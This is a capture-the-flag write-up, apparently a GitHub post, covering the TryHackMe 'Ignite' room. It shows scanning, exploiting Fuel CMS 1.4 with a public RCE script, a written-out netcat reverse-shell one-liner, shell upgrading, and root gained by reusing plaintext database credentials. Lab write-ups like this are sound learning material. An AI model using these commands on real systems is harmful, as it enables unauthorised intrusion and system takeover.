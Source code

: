 **<p align="center">TryHackMe: Ignite</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Ignite/Images/Ignite%20Image%201.png" alt="image alt" width="180" />
</p>

[![Day 11 & 12 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2011%20%26%2012%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting 

**Started:** 7/2/2025

**Completed:** 7/3/2025

🎯**Objective:** This penetration testing lab is to assess the security posture of a new start-up's web server, which is reportedly experiencing a few issues. The goal is to identify and exploit existing vulnerabilities within the web application to uncover two hidden flags.

<p align="center">+++++++++</p>

Launching the target machine, completing an Nmap scan is the first step to enumerating a target IP `10.10.188.239`.

The scan revealed 1 port being visibly open: Port 80, Service HTTP, Version Apache httpd 2.4.18 ((Ubuntu)).

![Alt text](1)

Since the Nmap scan confirmed that an HTTP service is running on the target machine, I proceeded to navigate to the IP address in my browser to begin exploring the web application.

Accessing the IP address directed me to the Fuel CMS homepage, which displayed the version number as 1.4.

![Alt text](2)

According to research, **Fuel CMS** is an open-source content management system built on the CodeIgniter PHP framework. It provides a user-friendly interface for content managers while also offering developers the flexibility to customize the application's behavior behind the scenes. In essence, it's both a CMS and a development platform.

Notably, Fuel CMS v1.4 is relatively outdated and is known to contain vulnerabilities, including Remote Code Execution (RCE), making it a strong candidate for exploitation in this challenge.

*(Note: My VM timed out during the process, so I had to relaunch the target machine.)*

While exploring the web server, I checked the `robots.txt` file and found a disallowed path: `/fuel/`. This suggests that the `/fuel/` directory may contain a sensitive interface, likely the CMS backend or admin panel.

![Alt text](3)

Using Searchsploit, I located a known Remote Code Execution exploit for Fuel CMS:
- `linux/webapps/47138.py`

This exploit specifically targets vulnerabilities within the `/fuel/` directory.

I customized the Python code by removing the Burp Suite proxy settings, as they weren’t needed for this setup.

![Alt text](4)

Running the customized exploit successfully launched a non-interactive shell on the target machine.

![Alt text](5)

To upgrade this shell to an interactive one, I opened a Netcat listener on port `5555` and used a reverse shell payload generated from the Reverse Shell Generator website.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.188.239 5555 > /tmp/f

```

This command quietly creates a named pipe (`mkfifo`) to establish a temporary communication tunnel between the attacker and target, allowing for interactive shell access.

![Alt text](6)

![Alt text](7)

While testing commands through the non-interactive shell, I encountered the following error:
```
sudo: no tty present and no askpass program specified

```
This hinted that `www-data` might have sudo privileges, but was being prevented from executing commands due to the lack of a proper TTY. In other words, the system couldn’t prompt for a password in this shell type.
To resolve this, I ran the following command to spawn an interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```
This successfully upgraded the shell and allowed smoother command interaction.

![Alt text](8)

Continuing my enumeration, I discovered a file named `database.php` located at:
```
/var/www/html/fuel/application/config/database.php

```
Inside, I found plaintext MySQL root credentials, stored in cleartext within the configuration.

![Alt text](9)

Using the retrieved credentials, I successfully attempted to escalate privileges by switching users. The credentials were reused at the system level, allowing me to gain full root access to the machine.

![Alt text](10)

With root access established, I was able to locate both challenge flags:
- **User flag:** Found in the home directory
- **Root flag:** Located in `/root`

![Alt text](11)

![Alt text](12)

**Lessons Learned:**

This lab reinforced the value of trusting my instincts and staying patient through the troubleshooting process. I initially spent several hours trying to get the exploit to work, and although I had to start over, it allowed me to retrace my steps with confidence and complete the entire process in minutes the next day.

From recognizing an outdated CMS, to exploiting it with an RCE, and finally escalating to root through a reused credential, each step reminded me how small misconfigurations can create major security risks. It also showed me that I’m developing a sharper eye for enumeration and privilege escalation paths, the progress felt incredibly rewarding.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers
directly. Instead, I’ve documented my full process to support both others and myself in
understanding the vulnerability.

**Resources**:
- [TryHackMe's Ignite Room](https://tryhackme.com/room/ignite)
